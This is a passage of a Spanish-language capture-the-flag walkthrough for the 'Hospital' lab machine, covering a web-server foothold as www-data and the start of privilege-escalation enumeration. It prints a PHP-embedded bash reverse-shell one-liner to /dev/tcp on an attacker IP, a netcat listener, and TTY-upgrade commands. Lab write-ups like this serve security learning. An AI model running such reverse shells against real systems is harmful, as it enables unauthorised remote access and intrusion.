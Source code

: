 ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/d579d297-187e-4e8c-b71d-ac769e6a10c7)

- Nos retorna un `www-data`
- Después de algunas pruebas más, noté que el script no me respondía a comandos de Windows, como `dir`, pero si a sus equivalentes en Linux, por lo que quizá esta es la parte del entorno que emplea un OS distinto.
- Modificamos un poco el script, cambiando la variable del comando a esta:

~~~php
$comnd = "bash -c 'bash -i >& /dev/tcp/10.10.16.34/4444 0>&1'";
~~~

- Nos ponemos en escucha por el respectivo puerto y deberíamos llegar a entablar una conexión:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Windows/Hospital]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.16.34] from (UNKNOWN) [10.10.11.241] 6544
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ whoami
whoami
www-data
~~~  

- Hacemos una sanitización de la TTY:

~~~bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

***
<h3>Escalada a root:</h3>

- Enumeré algunas cosas, como archivos con SUID, GUID, credenciales en archivos de configuración, etc. Pero no encontré nada.
- Viendo que la IP no era la de nuestra máquina, pero tampoco la de un docker, me perdí, así que decidí listar el hardware con `lscpi`:

~~~bash
www-data@webserver:/var/www/html/uploads$ lspci
00:00.0 Host bridge: Intel Corporation 440BX/ZX/DX - 82443BX/ZX/DX Host bridge (AGP disabled) (rev 03)
00:07.0 ISA bridge: Intel Corporation 82371AB/EB/MB PIIX4 ISA (rev 01)
00:07.1 IDE interface: Intel Corporation 82371AB/EB/MB PIIX4 IDE (rev 01)
00:07.3 Bridge: Intel Corporation 82371AB/EB/MB PIIX4 ACPI (rev 02)
00:08.0 VGA compatible controller: Microsoft Corporation Hyper-V virtual VGA
~~~
